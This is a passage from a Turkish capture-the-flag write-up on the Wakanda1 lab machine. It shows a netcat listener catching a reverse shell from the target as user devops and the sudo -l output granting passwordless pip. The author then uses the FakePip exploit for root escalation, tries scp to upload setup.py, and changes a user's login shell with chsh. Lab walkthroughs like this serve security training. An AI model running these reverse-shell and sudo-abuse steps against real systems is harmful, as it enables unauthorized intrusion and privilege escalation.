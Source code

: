 Ardından kendi bilgisayarımdan şu komutu girerek gerekli portu dinlemeye aldım.

```text
root@kali:~# nc -lvp 3334
```

Bu komutlar ile devops kullanıcısının kendi bilgisayarıma bağlanmasını sağladım. şimdi devops kullanıcısı olarak ne yapabileceğimize bakalım.

## Sudo Yetkisi ve Fakepip

Biraz kurcalamadan sonra şu komutu girdiğimde ilginç bir şeyle karşılaştım.

```text
root@kali:~# nc -lvp 3334
listening on [any] 3334 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 56579
sudo -l
Matching Defaults entries for devops on Wakanda1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User devops may run the following commands on Wakanda1:
    (ALL) NOPASSWD: /usr/bin/pip
```

Bu kullanıcı sudo yetkisi ile `pip` komutunu çalıştırabiliyor. O zaman yapmam gereken şey `pip` komutunu değiştirmek.

İnternette biraz araştırmadan sonra [şöyle bir exploit](https://github.com/0x00-0x00/FakePip) buldum. İsmi `fakepip`. Bu exploit sisteme sudo yetkisi ile bağlanmamızı sağlıyor. Altta açıklamalarda yazan işlemleri sırasıyla yaptım.

Fakat önce bunu zafiyetli makineye yüklememiz gerekecek. Bu işlemi şu kout ile yapabilirsiniz.

```text
root@kali:~# scp -P 3333 setup.py mamadou@192.168.56.101:/home/mamadou
mamadou@192.168.56.101's password:
Traceback (most recent call last):
  File "<string>", line 1, in <module>
NameError: name 'scp' is not defined
lost connection
```

Ama bi sorun var. `scp` tanımlı değil diyor. Uzunca bi uğraştan ve 1 saatlik çabadan sonra sorunu buldum. Mamadou kullanıcısının varsayılan kabuk programı python. Fakat `scp` bash te çalışıyor. Bu yüzden mamadou kullanıcısının varsayılan kabuk programını değiştiriyorum.

```text
mamadou@Wakanda1:~$ chsh
Password:
Changing the login shell for mamadou
Enter the new value, or press ENTER for the default
  Login Shell [/usr/bin/python]: /bin/bash
```
